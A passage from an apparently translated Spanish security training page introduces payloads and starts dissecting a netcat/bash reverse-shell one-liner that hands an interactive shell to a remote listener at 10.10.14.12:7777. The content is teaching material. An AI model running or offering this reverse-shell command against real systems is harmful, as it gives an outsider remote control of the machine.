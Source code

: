# Introducción a las cargas útiles

`Have you ever sent an email or text to someone?`

La mayoría de nosotros probablemente lo hemos hecho. El mensaje que enviamos en un correo electrónico o mensaje de texto es la carga útil del paquete, ya que se envía a través de Internet. En la computación, la carga útil es el mensaje previsto. En seguridad de la información, la carga útil es el comando y/o código que explota la vulnerabilidad en un sistema operativo y/o aplicación. La carga útil es el comando y/o código que realiza la acción maliciosa desde una perspectiva defensiva. Como vimos en la sección de Shells inverso, Windows Defender detuvo la ejecución de nuestra carga útil de PowerShell porque se consideraba un código malicioso.

Tenga en cuenta que cuando entregamos y ejecutamos las cargas útiles, al igual que cualquier otro programa, damos las instrucciones de la computadora de destino sobre lo que necesita hacer. Los términos "malware" y "código malicioso" romantizan el proceso y lo hacen más misterioso de lo que es. Cada vez que trabajamos con las cargas útiles, nos desafiemos a nosotros mismos para explorar lo que realmente están haciendo el código y los comandos. Comenzaremos este proceso descomponiendo las frases que trabajamos anteriormente:

---

# **Frases examinadas**

### **Netcat/bash shell inverso de un enlace**

Introducción a las cargas útiles

```
rm -f /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/bash -i 2>&1 | nc 10.10.14.12 7777 > /tmp/f

```

Los comandos anteriores conforman una línea de una sola emitida en un sistema de Linux para servir un shell de bash en un socket de red utilizando un oyente de NetCat. Utilizamos esto anteriormente en la sección Bind Shells. A menudo es copiado y pegado, pero no a menudo se entiende. Desglosemos cada porción de la línea de una sola:

### **Eliminar /tmp /f**

Introducción a las cargas útiles

```
rm -f /tmp/f;

```

Elimina el`/tmp/f`archivo si existe,`-f`causas`rm`para ignorar archivos inexistentes. El semicolón (`;`) se usa para ejecutar el comando secuencialmente.

### **Hacer una tubería con nombre**

Introducción a las cargas útiles

```
mkfifo /tmp/f;

```
